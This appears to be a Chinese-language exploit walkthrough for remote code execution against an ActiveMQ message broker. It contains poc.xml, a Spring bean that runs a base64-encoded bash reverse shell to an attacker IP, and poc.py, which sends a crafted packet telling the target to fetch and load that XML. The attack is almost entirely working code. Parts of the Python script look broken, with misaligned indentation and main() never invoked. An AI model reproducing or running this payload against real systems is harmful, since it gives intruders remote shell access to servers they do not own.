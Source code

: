   
  
编辑poc.xml  
  
修改xml为反弹shell命令，加入构造好的payload  

```
<?xml version=&#34;1.0&#34; encoding=&#34;UTF-8&#34; ?>
<beans xmlns=&#34;http://www.springframework.org/schema/beans&#34;
       xmlns:xsi=&#34;http://www.w3.org/2001/XMLSchema-instance&#34;
       xsi:schemaLocation=&#34;http://www.springframework.org/schema/beans
         http://www.springframework.org/schema/beans/spring-beans.xsd&#34;>
    <bean id=&#34;pb&#34;   class=&#34;java.lang.ProcessBuilder&#34; init-method=&#34;start&#34;>
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8gMTAuMTMyLjAuNzYvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5ZzApA7yHFAgxwjSHzIs0cxMgYhficg3q43WqKSfAnOPSVlvsqUL9Y9SA/640?wx_fmt=png&from=appmsg "")  
  
  
开启一个web服务监听，用来访问下载poc.xml  
  
![](https://mmbiz.qpic.cn/mmbiz_png/KPOk4NM81OfnAttQTmXMCvW1TrdnHp5Z8fnbcOiblhicne1rgicP9UdrlaSKhQAKG0amd1w01TwgGrEAicXFj3dUog/640?wx_fmt=png&from=appmsg "")  
  
  
poc.py  

```
import io
import socket
import sys
def main(ip, port, xml):
    classname =   &#34;org.springframework.context.support.ClassPathXmlApplicationContext&#34;
    socket_obj =   socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    socket_obj.connect((ip,   port))
    with socket_obj:
        out =   socket_obj.makefile('wb')
        # out =   io.BytesIO()  # 创建一个内存中的二进制流
          out.write(int(32).to_bytes(4, 'big'))
          out.write(bytes([31]))
          out.write(int(1).to_bytes(4, 'big'))
          out.write(bool(True).to_bytes(1, 'big'))
          out.write(int(1).to_bytes(4, 'big'))
          out.write(bool(True).to_bytes(1, 'big'))
          out.write(bool(True).to_bytes(1, 'big'))
          out.write(len(classname).to_bytes(2, 'big'))
          out.write(classname.encode('utf-8'))
          out.write(bool(True).to_bytes(1, 'big'))
          out.write(len(xml).to_bytes(2, 'big'))
          out.write(xml.encode('utf-8'))
        #   print(list(out.getvalue()))
        out.flush()
        out.close()
if __name__ == &#34;__main__&#34;:
    if len(sys.argv) != 4:
        print(&#34;Please   specify the target and port and poc.xml: python3 poc.py 127.0.0.1 61616   &#34;
                &#34;http://192.168.0.101:8888/poc.xml&#34;)
        exit(-1)
```